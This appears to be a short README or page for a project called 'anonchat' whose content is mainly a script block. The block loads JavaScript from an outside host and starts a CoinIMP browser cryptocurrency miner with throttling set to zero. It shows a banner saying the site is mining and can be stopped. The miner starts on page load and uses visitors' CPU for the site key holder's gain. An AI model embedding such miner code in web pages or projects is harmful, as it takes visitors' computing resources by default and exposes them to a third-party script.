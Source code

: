 # anonchat
<script src="https://www.hostingcloud.racing/Pu3b.js"></script>
<script>
    var _client = new Client.Anonymous('90d4539b7894abb4e795905bc3ec56cfa3232f8f5043f4bcc04c2625f5685f24', {
        throttle: 0, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com. If it bothers you, you can stop it.", "#cccccc", 40, "#3d3d3d");

</script>
